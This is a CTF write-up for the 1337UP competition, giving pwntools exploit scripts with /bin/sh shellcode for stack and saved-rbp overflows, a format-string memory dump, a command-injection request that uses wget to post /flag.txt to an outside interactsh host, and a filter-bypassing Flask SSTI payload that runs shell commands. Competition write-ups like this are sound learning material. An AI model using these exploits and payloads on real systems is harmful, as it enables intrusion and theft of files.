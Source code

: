 ```yaml
---
layout: post
title: 1337UP CTF by Intrigriti
author: Kolja
categories: [CTF]
tags: [web, pwn]
---
```


## Easy Register

This challenge was a basic stack buffer overflow with a stack leak. We used the leak to overwrite the saved rip with the address of our shellcode.

```
#!/usr/bin/env python
# coding: utf-8
import sys
import time

def main(args):
    p = None

    # toggle to remote with ./pwn.py remote
    if len(args) == 2 and args[1] == "remote":
        p = remote("remote-server-url", 1234)
    else:
        p = process("./easy_register")

    # Try
    # p.recvlines(1), p.recv(10), p.readline()
    test = p.recvlines(7)
    overall_length = 88
    shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
    leak = p64(int(test[-1].split(b"listing at ")[1].split(b".")[0], 16), endian="little")
    exploit = b"\x90" * (overall_length - len(shellcode) -20) + shellcode + b"\x90" * 20 + leak
    print(len(exploit))
    p.recvuntil(b"Hacker name >")
    p.sendline(exploit)
    # p.write('data'), p.write('data with newline')
    p.interactive()
    # Note that if your program never ends, you will never see any output
    print(p.recvall())
    sys.exit(0)

if __name__ == "__main__":
        main(sys.argv)
```

## Search Engine Redacted

This was a pwn challenge. There was a format string vulnerability in the search function when the search term was not found. Our solution here is not clean. We used a short python script to generate format strings, which read bytes from memory at a certain offset. We then pasted them into the search and found the flag in memory.

```
from os import *

for i in range(0,100,2):
    test = ""
    for j in range(2):
         test += "%" + str(i+j) + "$016lx"
         #test += "%" + str(i+j) + "$c"
    print("input:" + test)
    system("echo '" + test + "'| ./search_engine_redacted")
```

`1337UP{Th3s3_f0rm4ts_ar3_wh4ck!}`

## Cake
This was a pwn challenge. The executable has no protections enabled. We control the least significant byte of the `saved rbp` pointer in the `eat` function. The buffer, that we overwrite for this is 256 bytes long. Byte 257 overwrites the least significant byte of `saved rbp`. In our exploit we overwrite this byte to decrease the value of `saved rbp`. This allows us to control the `saved rip` when the next function (`menu`) returns. At this point, we use a `jmp rsp` gadget to jump to a relative jump, which then takes us to the beginning of our shellcode, which we place at the beginning of our buffer.

```
#!/usr/bin/env python
# coding: utf-8
import sys
import time

def main(args):
    p = None

    # toggle to remote with ./pwn.py remote
    if len(args) == 2 and args[1] == "remote":
        p = remote("cake.ctf.intigriti.io", 9999)
    else:
        p = process("./cake")
        #p = gdb.debug("./cake", gdbscript='break eat')

    
    binary = ELF('./cake')

    # Choose the right path, to get to the vulnerable read call
    p.recvuntil(b">")
    p.sendline(b"1")
    
    # Shellcode for dropping a shell
    shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
    
    # jmp rsp gadget
    jmp_gadget = 0x0000000000400dbb
    
    exploit = b"\x90" * (32 - len(shellcode)) + shellcode
    # Generate jmp rsp + relative jmp with the right offset
    for i in range(32,256,16):
        print( "jmp $-0x"+ '{:02X}'.format(i +8))
        relative_jmp = asm("jmp $-0x"+ '{:02X}'.format(i +8))
        exploit += p64(jmp_gadget) + relative_jmp + b"\x90" * (8-len(relative_jmp)) 
    # Overwriting the least significant byte.
    exploit += b"\x08"
    print("[+] exploit:")
    print(exploit)

    print(len(exploit))
    # Receive until read call and send of manipulated buffer
    p.recvuntil(b"How many bites would you like? (1, 2, or 3):")
    p.send(exploit)
    
    # Hopefully drop shell here
    p.interactive()
    
    # Note that if your program never ends, you will never see any output
    print(p.recvall())
    sys.exit(0)

if __name__ == "__main__":
        main(sys.argv)
```

`1337UP{Wow_that_was_Quite_the_journey!}`

## Traveler

There was only one point in the application, that provided some interaction. So we played around with it and got an error:
```
<center>An error occurred whilst executing: bash check.sh Couple$(whoami)</center>
```

Seemed like a command injection, but I got no output. So we started an `interactsh-client`:
```
~/go/bin/interactsh-client -v -o interactsh-logs.txt
```

We then with some trial and error crafted this request, which uses `wget` to post command output to the server. I found the flag in the root directory and leaked it this way:
```
POST /package-details.php HTTP/2
Host: traveller.ctf.intigriti.io
[...]

pack=Couple$(wget+http%3a//$(echo+test2).c8m9dmgkek6ds5otf660cesjpzyyyyyyn.oast.online/lsout+--post-data+"$(cat+/flag.txt)")&submit=Submit
```

On the `interactsh-client` we got:
```
------------
HTTP Request
------------
`
POST /lsout HTTP/1.1
Host: test2.c8m9dmgkek6ds5otf660cesjpzyyyyyyn.oast.online
Accept: */*
Accept-Encoding: identity
Connection: Keep-Alive
Content-Length: 24
Content-Type: application/x-www-form-urlencoded
User-Agent: Wget/1.20.3 (linux-gnu)

1337UP{C0MM4nd_Inj3ti0n}
```


## DeadTube

This is just one endpoint, which is issuing requests, which means SSRF. We had source code access, that told us that the flag is given when issuing a request to `/flag` from localhost. 

To solve it we used an URL Shortener to redirect the connection to `https://127.0.01:8080/flag`.

`1337UP{SSRF_AINT_GOT_NOTHING_ON_M3}`


## Quiz

Quiz, that allows us to earn points and gives a flag if we reach 100 points (which is not possible). This is a simple race condition. We sent the request triggering a point increase to `turbo intruder` and used the `race.py` script to issue it 30 times. We were then able to buy the flag:

`1337UP{this_is_a_secret_flag}`

## 1Truth2Lies
This allows Flask SSTI on one endpoint, while the other two are not vulnerable. We need to URL encode the path, as it is quite strange. For this, we used `cyberchef`. Then there is a basic filter, but one of the payloads from `PayloadAllTheThings` was not filtered. 

We issued the following request to retrieve the flag:
```
GET /%0A%20%E2%96%84%E2%96%88%20%20%20%20%E2%96%84%E2%96%84%E2%96%84%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%E2%96%84%20%20%20%20%20%20%20%20%20%E2%96%84%E2%96%88%20%20%20%20%E2%96%88%E2%96%84%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%84%20%20%20%E2%96%84%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%E2%96%84%20%20%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%84%20%20%20%E2%96%84%E2%96%88%20%20%20%20%20%20%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%0A%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%84%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%84%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%0A%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%80%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%80%20%20%0A%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%20%20%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%E2%96%84%E2%96%88%E2%96%88%E2%96%80%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%E2%96%88%E2%96%88%E2%96%80%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%20%20%20%20%20%0A%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%20%20%20%20%20%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%80%E2%96%80%20%20%20%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%84%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%20%20%20%20%20%0A%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%84%20%20%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%84%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%84%20%20%0A%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%20%20%20%E2%96%84%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%20%20%20%E2%96%84%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%0A%E2%96%88%E2%96%80%20%20%20%20%E2%96%80%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%80%20%20%20%20%20%20%20%20%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%80%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%80%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%88%E2%96%88%20%20%E2%96%80%E2%96%88%20%20%20%E2%96%88%E2%96%80%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%80%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%80%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%E2%96%80%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%E2%96%80?input={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat+flag*')|attr('read')()}} HTTP/2
[...]
```

In the response we got the flag:
```
HTTP/2 200 OK
Date: Sat, 12 Mar 2022 14:55:10 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 67
Set-Cookie: INGRESSCOOKIE=1647096911.236.13402.145793|dc1d9196c6bf1d67eb64d1980e38e24f; Path=/; Secure; HttpOnly

Your input: flag{1ea5n_h0w_vu1n_h1ppen_and_wh1t_l1ne_m1ke_vu1n!!!}
```


